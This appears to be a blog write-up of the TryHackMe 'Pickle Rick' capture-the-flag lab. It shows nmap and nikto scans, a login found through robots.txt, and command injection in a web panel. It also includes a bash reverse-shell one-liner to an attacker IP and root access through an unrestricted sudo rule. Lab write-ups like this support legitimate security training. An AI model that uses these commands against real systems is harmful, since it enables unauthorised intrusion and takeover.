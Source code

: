 ```yaml
---
title: "TryHackMe: Pickle Rick"
date: 2020-11-11 00:00:00 +/-TTTT
categories: [Writeups, TryHackMe, easy]
tags: [tryhackme, easy]     # TAG names should always be lowercase
---
```



**Title**: Pickle Rick

**Platform**: TryHackMe

**Difficulty**: Easy
 
**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

[Pickle Rick Challenge Link](https://tryhackme.com/room/picklerick)

We are big Rick & Morty fans so this was the natural first pick to kick off the write ups! Let’s get Schwiftyyyyyyyy…

`Note: This writeup does not divulge the flags.`

## Enumeration

Let’s begin with our favorite tool in the whole wide world..`NMAP`!

```js
root@ip-10-10-2-8:~# nmap -sS 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:40 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
```

And with a few other switches..

```javascript
root@ip-10-10-2-8:~# nmap -sC -sV 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:41 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ca:29:35:20:59:12:22:6d:b5:9e:71:a9:13:ae:74:c1 (RSA)
|   256 4d:ad:85:45:39:1f:4e:e4:c5:f5:27:14:57:d3:81:fd (ECDSA)
|_  256 ff:d6:fd:35:1d:6e:2b:e8:66:8b:33:20:eb:b2:f4:35 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

Navigating to Port 80 we are greeted with Grandpa RICK

![image](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527366805/b4a313e6-97de-49cc-ab3f-4243af9103a7.png)

Viewing the source of the `index.html` page we see the following

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527391473/f6847fe0-61a7-4fb2-b44b-f3c37d9137c0.png)

Now let’s enumerate the usual suspects using `nikto`

```javascript
root@ip-10-10-2-8:~# nikto -h <http://10.10.238.189>
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.238.189
+ Target Hostname:    ip-10-10-238-189.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-12-28 20:44:37 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-12-28 20:44:47 (GMT0) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

* `robots.txt`
    
    I couldn’t stop laughing when I saw the entry
    
    ![image3](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527420086/9bb35c2a-bf34-4351-b62e-833c0c7a0da7.png)
    
* `login.php`
    
    Let’s try a few standard combinations for usernames and passwords
    

![image4](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527440172/6d9a96d0-79f7-4802-8d13-b367a7d3c0ab.png)

Username found earlier with the `robots.txt` entry combination works and we are in!

We are now logged into a `portal.php`

![image5](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527456037/e5603924-17d9-47fa-8b09-b628685f1fb2.png)

All the other tabs redirect to `denied.php` so we will investigate the command panel with something simple for a command injection

`Cat` the first one doesn’t work and we get a Command disabled message so let’s look at the `clue.txt`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527470931/acaa5158-d97b-4a2c-b333-37cbb0d550ca.png)

`Cat` and `tail` and similar commands do not work but we notice that `grep` works, now we use a shwifty little trick to read the text file like so

```jsx
grep -v "test" filename
```

Voila! We have our first ingredient!

## I Smell a Shell Morty!

Let’s try to pop a shell and we see we get a similar response with `sh` and a few moments later this works

```bash
bash -c 'sh -i >& /dev/tcp/10.10.2.8/4444 0>&1'
```

We read the `clue.txt` and go to `/home` and we see the second ingredient folder and go grab it.

You don't necessarily need to pop a shell, you can get by with command injection in the panel we saw earlier but shells are fun and I like poppin' them.

## One Step Closer....All powerful Root!

Now for the final ingredient which is root probably we see that the user `www-data`has sudo access and we run sudo -l to see what privileges our user has.

`(ALL) NOPASSWD: ALL`

Don't we just love when this happens?

`sudo -i` and we're done.

Head to the root directory and we have our final ingredient.

That's all for today folks, see you on the next one!